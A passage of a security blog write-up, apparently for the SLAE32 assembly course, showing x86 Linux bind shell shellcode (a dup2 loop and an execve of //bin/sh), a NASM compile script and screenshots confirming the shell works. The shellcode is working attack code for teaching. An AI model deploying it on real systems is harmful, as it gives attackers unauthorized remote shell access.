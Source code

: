 	mov cl, 3 ;the newfd, stdin, stdout, std error
dup2:
	xor eax,eax ;reset the eax
	mov al, 63 ;call dup2
	int 0x80
	dec ecx ;minus the ecx by 1
	jns dup2 ;jump if not signed
	
     ;execve
     xor eax, eax
     push eax ;set envp to 0
     push 0x68732f2f ;ib//
     push 0x6e69622f ;hs/n
     mov ebx, esp ;now our stack is //bin/sh0x00000000, and ebx points to the pathname //bin/sh
     push eax	;push another 0 on the stack, so now our stack is 0x0//bin/sh0x00000000
     mov edx, esp	;edx points to envp, which is the 0x0
     push ebx ;push the memory address of //bin/sh on the stack, so now we have addr0x0//bin/sh0x00000000
     mov ecx, esp	;ecx points to the address of the //bin/sh, which is the argument argv
     mov al, 11 ;call the execve
     int 0x80
{% endhighlight %}

### Step3 - Compile the code
With the compile script obtained from the SLAE32 course, we can compile the code. Note, NASM is installed by default on kali 2020.3. If not, you need to install the NASM first.

Compile.sh:
{% highlight js %}
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
{% endhighlight %}

![compile](https://bohansec.com/assets/compile.png "compile")

### Step4 - Execute the code to confirm the bind shell is working

![execute](https://bohansec.com/assets/execute.png "execute")

![nmao](https://bohansec.com/assets/nmap.png "nmap")

![confirm](https://bohansec.com/assets/confirm.png "confirm")

### Step5 - Check for null bytes
